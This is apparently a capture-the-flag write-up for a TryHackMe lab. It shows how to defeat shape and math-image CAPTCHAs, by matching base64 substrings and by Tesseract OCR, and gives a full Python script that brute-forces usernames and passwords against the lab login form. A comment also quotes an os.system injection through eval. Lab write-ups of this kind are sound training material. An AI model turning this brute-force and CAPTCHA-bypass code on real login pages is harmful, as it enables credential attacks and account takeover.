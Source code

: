 ```yaml
---
title: CTF tryhackme capturereturns
categories: [CTF, THM, Hard]
tags: [http, python, CAPTCHA]
date: 2024-04-22 08:00 +0700
---
```


In this room, we'll see how to bypass 2 custom CAPTCHA systems using python

[https://tryhackme.com/r/room/capturereturns](https://tryhackme.com/r/room/capturereturns)

## Login form analysis
- we need to bypass a login form security measures
- after a few failed login attempts, we get 2 types of CAPTCHA
- the first CAPTCHA system is about identifying a shape in an image
![](/assets/img/img_thm_ctf_capturereturns_1.png)
- the second CAPTCHA system is about solving a mathematical operation written as an image
![](/assets/img/img_thm_ctf_capturereturns_2.png)
- after solving 3 CAPTCHAs in a row, we can use the login form again
![](/assets/img/img_thm_ctf_capturereturns_3.png)
- after 3 failed login attempts, we have to solve the CAPTCHAs again

## The shapes
- good news, the shapes are static (eg a circle will always have the same base64 value)
- an easy way to differentiate the images values would be to extract 3 pieces of strings that are only in one of them.
- example for the circle:
	- get a CAPTCHA with triangle shape -> right click on it -> open image in new tab -> copy the url -> paste it in a file "circle.txt". Do the same for the other shapes
	- copy a long enough string
	- `head -c 300 ./shapes/circle.txt` get a part of the image value
	- verify that it isn't in the other shapes
		- `grep "PeZ7dZ5+Z93w+cz4zDbSDstRZGnqOljqKFbiOYwWu49T6Mtg8" ./shapes/triangle.txt`
		- `grep "PeZ7dZ5+Z93w+cz4zDbSDstRZGnqOljqKFbiOYwWu49T6Mtg8" ./shapes/square.txt`
	- store the string, then repeat for the other 2 shapes
- after this, we can build a list of dictionaries
```python
shapes_data = [
	{"answer": "circle", "unique": "PeZ7dZ5+Z93w+cz4zDbSDstRZGnqOljqKFbiOYwWu49T6Mtg8"},
	{"answer": "square", "unique": "TmpBGEDx7wKWoiS4ARtXYMMa3AwJsAQKXIMLcA92LoCGgrgCGhpsgfvu3IyveA"},
	{"answer": "triangle", "unique": "1icoweuEUzHY/IV/opz4Nc56C/vB39X5+C35OfoNH8d2/wWHa/fr"}
]
```

## Extracting text from an image
### Asking Llama 3 70b
- let's get some help from a Llama 3 70b model
![](/assets/img/img_thm_ctf_capturereturns_4.png)
- alright! If that works we're golden. Let's first try with a local image
### POC, extracting text from image
- `pip install requests beautifulsoup4 pillow pytesseract`
- on kali linux, I had to also install those packages too
- `sudo apt install tesseract-ocr libtesseract-dev -y`
- first we generate a CAPTCHA with a mathematical operation -> right click on it -> open image as new Tab
- copy the base64 value after `base64,`
![](/assets/img/img_thm_ctf_capturereturns_5.png)
- paste the string in base64.b64decode(...)

```python
import base64
import requests
from bs4 import BeautifulSoup
from PIL import Image
import pytesseract

img_data = base64.b64decode("iVBORw0KGgoA[.....]")

# Save the image to a temporary file (required for OCR)
with open('temp.png', 'wb') as f:
    f.write(img_data)

image = Image.open('temp.png')
image = image.convert('L')  # Convert to grayscale

# Perform OCR using Tesseract
text = pytesseract.image_to_string(image)

print(text)  # Extracted text from the image
```

![](/assets/img/img_thm_ctf_capturereturns_6.png)
- it works! The hardest part is done, now let's just code the whole logic


## Final script
- here's the final code, heavily commented


```python
#!/usr/bin/python  
import requests 
import re   
import base64
import urllib3
from bs4 import BeautifulSoup
from PIL import Image
import pytesseract
import time
  
URL = "http://10.10.181.29/login"  
REQUEST_TIMEOUT = 0.3
first_request = True

# Initializing a session  
session = requests.Session()   
data = {'username': '','password':''}

# Removing the line feed (\n) from the usernames and passwords read from the respective files  
usernames = open('usernames.txt','r').read().splitlines()  
passwords = open('passwords.txt', 'r').read().splitlines()  
 
# "unique" is a string found only in the base64 value of the image shape "answer", and not the other 2
shapes_data = [
	{"answer": "circle", "unique": "PeZ7dZ5+Z93w+cz4zDbSDstRZGnqOljqKFbiOYwWu49T6Mtg8"},
	{"answer": "square", "unique": "TmpBGEDx7wKWoiS4ARtXYMMa3AwJsAQKXIMLcA92LoCGgrgCGhpsgfvu3IyveA"},
	{"answer": "triangle", "unique": "1icoweuEUzHY/IV/opz4Nc56C/vB39X5+C35OfoNH8d2/wWHa/fr"}
]

# Solve an operation from text eg " 5+ 3" -> "8"
# While it's not mandatory to use a regex here, it's important to filter text going in eval as it can execute any python code
#	cf eval("__import__('os').system('id')")
def solve_operation(text):  
	captcha_syntax = re.compile(r'(\s*\s*\d+\s*[+*-/]\s*\d+)\s*')  
	captcha = captcha_syntax.findall(text)  
	# We couldn't parse the operation, we must not pass an empty array to eval(), it will raise an error (should never happen since I filter the part after '=')
	if (len(captcha) == 0):
		print(f'Impossible to parse the operation {text}')
		return 'Error'
	else:
		return eval(' '.join(captcha))

# Send a post request until we don't get a timeout
def send_response(session, URL, data, timeout, ttype):
	response = None
	while True:
		try:
			response = session.post(URL, data=data, timeout=REQUEST_TIMEOUT)
			if response.status_code != 200:
				print("A request wasn't successfull")
			else:
				break
		# Filter the many kind of errors related to Timeout
		except (requests.exceptions.ConnectionError, requests.exceptions.ReadTimeout, urllib3.exceptions.ReadTimeoutError, TimeoutError) as e:
			print(f'Timed out {ttype}') # Print the kind of requests we were doing
			continue

	return response

for user in usernames:
	for password in passwords:
		# Try a login request with a user/pass couple
		data = {'username': user,'password': password}
		print(f'trying: {user}  {password}')
		response = send_response(session, URL, data, REQUEST_TIMEOUT, "login")

		# CAPTCHAs We need to solve 3 CAPTCHAs before trying our login request
		if 'Detected 3 incorrect login attempts!' in response.text:
			while 'Detected 3 incorrect login attempts!' in response.text:
				soup = BeautifulSoup(response.content, 'html.parser')
				# Extract the base64 encoded image
				img_tag = soup.find('img')
				base64_img_data = img_tag['src'].split(',')[1]
				answer = ''
				captcha_data = ''
				captcha_type = ''

				# SHAPE SELECTION
				if 'Describe the shape below' in response.text:
					captcha_type = 'shape'
					for row in shapes_data:
						# We found the unique string in the base64 value of the image, it's an "answer" shape
						if row["unique"] in base64_img_data:
							answer = row["answer"]
							break
				# MATHEMATICAL OPERATION
				else:
					captcha_type = "operation"
					# Get convert the base64 image value to bytes
					img_data = base64.b64decode(base64_img_data)
					# Save the image to a temporary file (required for OCR -> Optical Character Recognition)
					with open('temp.png', 'wb') as f:
					    f.write(img_data)

					image = Image.open('temp.png')
					image = image.convert('L')  # Convert to grayscale

					# Perform OCR using Tesseract
					operation = pytesseract.image_to_string(image)
					# Get the text before '=', we only want the operation, not '=?'
					operation = operation.split('=')[0]
					answer = solve_operation(operation)
					captcha_data = operation


				# We didn't find the shape (should never happen)
				if answer == '':
					print('Shape was not found!')
					print(base64_img_data)
					exit()

				data = {'captcha': answer}
				# Since we replaced the response content, we'll check if we still need to solve CAPTCHAs in the while condition
				response = send_response(session, URL, data, REQUEST_TIMEOUT, f'CAPTCHA {captcha_type}')


			# Retry the login request now that we solved 3 CAPTCHAs
			if first_request:
				print(f'repeat: {user}  {password}')
				data = {'username': user,'password': password}
				response = send_response(session, URL, data, REQUEST_TIMEOUT, "login repeat")
				first_request = False
		elif 'Error' not in response.text:
			print(f'SUCCESS: {user} --- {password}')
			exit()
```

![](/assets/img/img_thm_ctf_capturereturns_7.png)
